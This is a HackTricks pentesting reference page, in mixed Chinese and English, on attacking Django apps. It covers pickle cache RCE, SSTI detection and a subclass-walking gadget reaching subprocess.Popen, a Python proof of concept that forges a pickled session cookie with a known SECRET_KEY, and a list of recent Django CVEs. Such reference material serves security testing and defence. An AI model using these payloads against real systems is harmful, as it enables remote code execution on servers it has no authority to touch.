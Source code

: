 # Django

{{#include ../../banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Django 的默认缓存存储方式是 [Python pickles](https://docs.python.org/3/library/pickle.html)，如果对 [untrusted input is unpickled](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf)，可能导致 RCE。**如果攻击者能够获得对缓存的写访问，他们可以将此漏洞升级为对底层服务器的 RCE。**

Django cache is stored in one of four places: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memory](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [files](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), or a [database](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). 存储在 Redis 服务器或数据库中的缓存是最可能的攻击向量（Redis injection 和 SQL injection），但攻击者也可能利用基于文件的缓存将任意写入转为 RCE。维护者已将此标记为非问题。需要注意的是，缓存文件夹、SQL 表名和 Redis 服务器的具体信息会根据实现而不同。

This HackerOne report provides a great, reproducible example of exploiting Django cache stored in a SQLite database: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
The Django Template Language (DTL) 是 **图灵完备** 的。如果用户提供的数据被作为 *template string* 渲染（例如通过调用 `Template(user_input).render()`，或当 `|safe`/`format_html()` 取消自动转义时），攻击者可能实现完整的 SSTI → RCE。

### Detection
1. 查找包含 *任何* 未清洗请求数据的动态调用 `Template()` / `Engine.from_string()` / `render_to_string()`。
2. 发送基于时间或算术的 payload：
```django
{{7*7}}
```
如果渲染输出包含 `49`，则表明输入被模板引擎编译。

### 升级到 RCE 的原语
Django 阻止了对 `__import__` 的直接访问，但 Python 对象图是可访问的：
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
找到 `subprocess.Popen` 的索引（约 400–500，取决于 Python 构建）并执行任意命令：
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
一个更安全的通用 gadget 是迭代直到 `cls.__name__ == 'Popen'`。

相同的 gadget 也适用于**Debug Toolbar**或**Django-CMS**中错误处理用户输入的模板渲染功能。

---

### 另见：ReportLab/xhtml2pdf PDF 导出 RCE
基于 Django 的应用通常会集成 xhtml2pdf/ReportLab 来将视图导出为 PDF。当受用户控制的 HTML 流入 PDF 生成时，rl_safe_eval 可能会评估三重括号 `[[[ ... ]]]` 内的表达式，从而允许代码执行（CVE-2023-33733）。详细信息、payloads 和缓解方法：

{{#ref}}
../../generic-methodologies-and-resources/python/bypass-python-sandboxes/reportlab-xhtml2pdf-triple-brackets-expression-evaluation-rce-cve-2023-33733.md
{{#endref}}

---

## 基于 Pickle 的会话 Cookie RCE
如果设置 `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` 被启用（或使用会反序列化 pickle 的自定义序列化器），Django 会在调用任何视图代码之前对会话 cookie 进行*解密并反序列化 (unpickle)*。因此，拥有有效的签名密钥（默认情况下为项目的 `SECRET_KEY`）就足以立即实现远程代码执行。

### 利用要求
* 服务器使用 `PickleSerializer`。
* 攻击者知道或能猜到 `settings.SECRET_KEY`（leaks via GitHub、`.env`、错误页面等）。

### 概念验证
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
发送生成的 cookie，payload 就会以 WSGI worker 的权限运行。

**缓解措施**: 保持默认的 `JSONSerializer`，轮换 `SECRET_KEY`，并配置 `SESSION_COOKIE_HTTPONLY`。

---

## 近期（2023-2025）Pentesters 应检查的高影响 Django CVE
* **CVE-2025-48432** – *Log Injection via unescaped `request.path`* (fixed June 4 2025). 允许攻击者将换行符/ANSI codes 掺入日志文件并污染下游的日志分析。已在版本 ≥ 4.2.22 / 5.1.10 / 5.2.2 中修复。
* **CVE-2024-42005** – *Critical SQL injection* in `QuerySet.values()/values_list()` on `JSONField` (CVSS 9.8). 在 `JSONField` 上构造 JSON 键以跳出引号并执行任意 SQL。已在 4.2.15 / 5.0.8 中修复。

始终通过 `X-Frame-Options` 错误页面或 `/static/admin/css/base.css` 哈希来指纹化精确的框架版本，并在适用时测试上述问题。

---

## References
* Django security release – "Django 5.2.2, 5.1.10, 4.2.22 address CVE-2025-48432" – 4 Jun 2025.
* OP-Innovate: "Django releases security updates to address SQL injection flaw CVE-2024-42005" – 11 Aug 2024.
* 0xdf: University (HTB) – Exploiting xhtml2pdf/ReportLab CVE-2023-33733 to gain RCE and pivot into AD – [https://0xdf.gitlab.io/2025/08/09/htb-university.html](https://0xdf.gitlab.io/2025/08/09/htb-university.html)

{{#include ../../banners/hacktricks-training.md}}
